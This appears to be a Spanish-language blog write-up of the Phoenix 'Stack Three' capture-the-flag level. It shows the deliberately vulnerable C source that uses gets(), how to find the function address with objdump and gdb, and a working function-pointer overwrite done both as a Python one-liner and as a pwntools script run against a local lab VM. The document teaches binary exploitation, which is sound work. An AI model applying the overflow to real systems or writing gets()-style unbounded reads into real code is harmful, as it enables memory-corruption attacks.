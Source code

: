 ```yaml
---
layout: single
title: "Stack Three"
permalink: /pwn/phoenix/stack-three/
parent: Phoenix
comments: true
excerpt: "Stack Three"
classes: wide
header:
  teaser: /assets/images/2025-08-17-Phoenix/logo.jpg
categories: [PWN]
tags: [PWN, Linux, Hacking, Easy]
---
```


![Untitled](/assets/images/2025-08-17-Phoenix/banner.png)

En este nivel se introduce el concepto de **sobrescritura de punteros de función** en la pila.  
El objetivo es modificar el puntero `fp` para que apunte a la función `complete_level()`.

**Consejos:**
- Se puede usar `gdb` y `objdump` para obtener la dirección de la función `complete_level()`.
- El overflow permitirá sobreescribir el puntero de función almacenado justo después del buffer.

## Análisis del código

El programa contiene:

Un buffer de 64 bytes (locals.buffer).

Un puntero a función (locals.fp), inicializado en NULL.

La vulnerabilidad está en el uso de gets(), que permite escribir más allá de los 64 bytes, sobreescribiendo el puntero fp.
Si logramos que fp apunte a complete_level(), se ejecutará y se completará el reto.


```c
/*
 * phoenix/stack-three, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x0d0a090a
 *
 * When does a joke become a dad joke?
 *   When it becomes apparent.
 *   When it's fully groan up.
 *
 */

#include <err.h>    // Biblioteca para manejo de errores y salida
#include <stdio.h>  // Biblioteca estándar para entrada y salida (printf, fflush, etc.)
#include <stdlib.h> // Biblioteca para funciones generales, como exit() y malloc()
#include <string.h> // Biblioteca para manipulación de cadenas (gets, strcpy, etc.)
#include <unistd.h> // Biblioteca para funciones del sistema POSIX (sleep, fork, etc.)

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"
// Define una constante con el mensaje que se imprimirá al inicio del programa

char *gets(char *); 
// Declaración de la función 'gets', que permite leer una línea de texto desde la entrada estándar

void complete_level() { 
  // Función para completar el nivel
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  // Muestra un mensaje de felicitación si se completa el nivel
  exit(0); // Sale del programa
}

int main(int argc, char **argv) {
  // Función principal que toma argumentos desde la línea de comandos
  struct {
    char buffer[64];        // Reserva 64 bytes para almacenar la entrada del usuario
    volatile int (*fp)();   // Puntero a función que debe ser modificado por el exploit
  } locals; // Declara la estructura que contendrá el buffer y el puntero a la función

  printf("%s\n", BANNER);
  // Imprime el banner de bienvenida

  locals.fp = NULL;
  // Inicializa el puntero a función a NULL

  gets(locals.buffer);
  // Lee la entrada del usuario con gets() y la guarda en 'buffer' (sin verificar límites, lo que permite un desbordamiento de buffer)

  if (locals.fp) {
    // Si el puntero a la función no es NULL (es decir, ha sido modificado por el atacante)
    printf("calling function pointer @ %p\n", locals.fp);
    // Imprime la dirección de la función que se va a llamar
    fflush(stdout);
    // Fuerza a que los datos pendientes se escriban en la salida estándar
    locals.fp();
    // Llama a la función apuntada por 'fp'
  } else {
    // Si el puntero a la función sigue siendo NULL (no ha sido modificado)
    printf("function pointer remains unmodified :~( better luck next time!\n");
    // Imprime un mensaje indicando que el puntero no ha sido modificado
  }

  exit(0); 
  // Termina el programa correctamente
}
```

**Encontrando la dirección de complete_level()**

Podemos ubicar la dirección con objdump:

```c
user@phoenix-amd64:/opt/phoenix/amd64$ objdump -d stack-three | grep complete_level
000000000040069d <complete_level>:
```

O también con gdb con el comando ` info func`

```c
user@phoenix-amd64:/opt/phoenix/amd64$ gdb ./stack-three
GNU gdb (GDB) 8.2.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-pc-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
GEF for linux ready, type `gef' to start, `gef config' to configure
71 commands loaded for GDB 8.2.1 using Python engine 3.5
[*] 2 commands could not be loaded, run `gef missing` to know why.
Reading symbols from ./stack-three...(no debugging symbols found)...done.
gef➤  info func
All defined functions:

Non-debugging symbols:
0x00000000004004b0  _init
0x00000000004004d0  printf@plt
0x00000000004004e0  gets@plt
0x00000000004004f0  puts@plt
0x0000000000400500  fflush@plt
0x0000000000400510  exit@plt
0x0000000000400520  __libc_start_main@plt
0x0000000000400530  _start
0x0000000000400546  _start_c
0x0000000000400570  deregister_tm_clones
0x00000000004005a0  register_tm_clones
0x00000000004005e0  __do_global_dtors_aux
0x0000000000400670  frame_dummy
0x000000000040069d  complete_level
0x00000000004006b5  main
0x0000000000400740  __do_global_ctors_aux
0x0000000000400782  _fini
```

**Explotación manual**

Si enviamos 64 caracteres seguidos de la dirección de complete_level(), sobrescribiremos el puntero de función: En arquitecturas de 64 bits es mejor usar p64 para garantizar el formato correcto de la dirección.

```c
user@phoenix-amd64:/opt/phoenix/amd64$  python -c 'print "A"*64 + "\x9d\x06\x40"' | ./stack-three
Welcome to phoenix/stack-three, brought to you by https://exploit.education
calling function pointer @ 0x40069d
Congratulations, you've finished phoenix/stack-three :-) Well done!
```

**Exploit con Pwntools**

Creamos un script en Python3 para automatizarlo:

```c
┌──(root㉿angussMoody)-[/mnt/angussMoody/PWN/Phoenix/3_stack-three]
└─# cat Remote_exploit.py 
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: Remote_exploit.py
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ #!/usr/bin/env python3
   2   │ from pwn import *
   3   │ import time
   4   │ 
   5   │ # Conectar al proceso remoto
   6   │ ssh_connection = ssh(user='user', host='localhost', password='user', port=2222)
   7   │ 
   8   │ # Definir el payload
   9   │ payload = b"A" * 64
  10   │ payload += p64(0x40069d)  # Asegúrate de que la dirección esté bien
  11   │ 
  12   │ # Ejecutar el programa remoto
  13   │ process = ssh_connection.process('/opt/phoenix/amd64/stack-three')
  14   │ 
  15   │ # Enviar el payload
  16   │ process.sendline(payload)
  17   │ 
  18   │ # Esperar un poco para asegurar que todo se haya enviado
  19   │ time.sleep(1)
  20   │ 
  21   │ # captura la respuesta y la envía
  22   │ flag = process.recvall().decode()
  23   │ log.success("Output: " + flag)
  24   │ 
  25   │ # Cerrar el proceso
  26   │ process.close()
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────
```

**Resultado final**

Se evidencia el mensaje que indica que el reto fue resuelto

```c
┌──(root㉿angussMoody)-[/mnt/angussMoody/PWN/Phoenix/3_stack-three]
└─# python3 Remote_exploit.py 
[+] Connecting to localhost on port 2222: Done
[*] user@localhost:
    Distro    Unknown 
    OS:       linux
    Arch:     amd64
    Version:  4.9.0
    ASLR:     Disabled
    SHSTK:    Disabled
    IBT:      Disabled
    Note:     Susceptible to ASLR ulimit trick (CVE-2016-3672)
[+] Starting remote process None on localhost: pid 906
[!] ASLR is disabled for '/opt/phoenix/amd64/stack-three'!
[+] Receiving all data: Done (180B)
[*] Stopped remote process 'stack-three' on localhost (pid 906)
[+] Output: Welcome to phoenix/stack-three, brought to you by https://exploit.education
    calling function pointer @ 0x40069d
    Congratulations, you've finished phoenix/stack-three :-) Well done!
```

**Conclusión**

En este reto vimos cómo es posible manipular punteros de función mediante un buffer overflow, redirigiendo la ejecución del programa hacia una función específica.

Puntos clave:

  - Las funciones inseguras como gets() permiten escribir más allá de la memoria asignada.

  - Los punteros de función en la pila son objetivos directos para un atacante.

  - Controlar el flujo del programa a través de estos punteros es una técnica básica pero poderosa en explotación binaria.